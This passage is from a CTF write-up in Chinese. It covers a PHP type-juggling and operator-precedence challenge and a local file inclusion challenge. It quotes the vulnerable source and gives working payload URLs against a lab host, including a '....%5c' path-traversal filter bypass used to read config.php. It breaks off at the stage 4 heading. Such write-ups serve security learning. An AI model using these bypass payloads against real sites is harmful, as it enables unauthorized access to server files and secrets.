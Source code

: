     highlight_file(__FILE__);
    echo '<hr>';

    if (isset($A) && isset($B))
        if ($A !== $B){
            $is_same = md5($A) == 0 and md5($B) === 0;
            if ($is_same)
                echo (md5($B) ? "QQ1" : md5($A) == 0 ? "<a href=$stage3?page=swirl.php>Go to stage3</a>" : "QQ2");
            else die('ERROR: $is_same is false');
        }
    else die('ERROR: A, B should be given');
    ```
    :::
    這一題沒有想太多就直接用前一題的payload送出去，結果payload太強大就過了==，後來是仔細去看[教學](https://hackmd.io/@Vincent550102/BJwHYfxKp)才知道他的考點，簡單來說，在php中，`=`的運算優先度是高於`and`運算的，所以送出前一題的payload，會通過#13的判斷，因為即時後面是一個false也沒差，接著就是一個三層的if statement，用python的角度解釋就會變成
    ```python
    if md5(B):
        result = "QQ1"
    else:
        if md5(A) == 0:
            result = "<a href={0}?page=swirl.php>Go to stage3</a>".format(stage3)
        else:
            result = "QQ2"
    ```
    而因為\$B本來就沒東西，所以會進到else，必且md5(\$A)是true，所以會return Stage 3的link給我們
    Payload: `http://172.31.210.1:33002/stage2_212ad0bdc4777028af057616450f6654.php/?A[]=QNKCDZO&B[]=240610708`
    ![圖片](https://hackmd.io/_uploads/SkwCW4Ft6.png)
3. LFI
    :::spoiler Source Code
    ```php=
    <?php
    include('config.php');
    echo '<h1>👻 Stage 3 / 4</h1>';

    $page = $_GET['page'];

    highlight_file(__FILE__);
    echo '<hr>';
    if (isset($page)) {
        $path = strtolower($_GET['page']);

        // filter \ _ /
        if (preg_match("/\\_|\//", $path)) {
            echo "<p>bad hecker detect! </p>";
        }else{
            $path = str_replace("..\\", "../", $path);
            $path = str_replace("..", ".", $path);
            echo $path;
            echo '<hr>';
            echo file_get_contents("./page/".$path);
        }
    } else die('ERROR: page should be given');
    ```
    :::
    這個小題是個簡單的LFI，要找的檔案其實就是config.php(不然其實也不知道要找甚麼)，關鍵的地方在於他有設filter，簡單bypass一下就過了(把`../`變成`....%5c`就可以了)，取得config.php後就打開source code inspect一下就知道關鍵stage 4的link了
    Payload: `http://172.31.210.1:33002/stage3_099b3b060154898840f0ebdfb46ec78f.php?page=....%5cconfig.php`
    ![圖片](https://hackmd.io/_uploads/HJAS84tK6.png)
4. LFI2RCE - PHP Filter Chain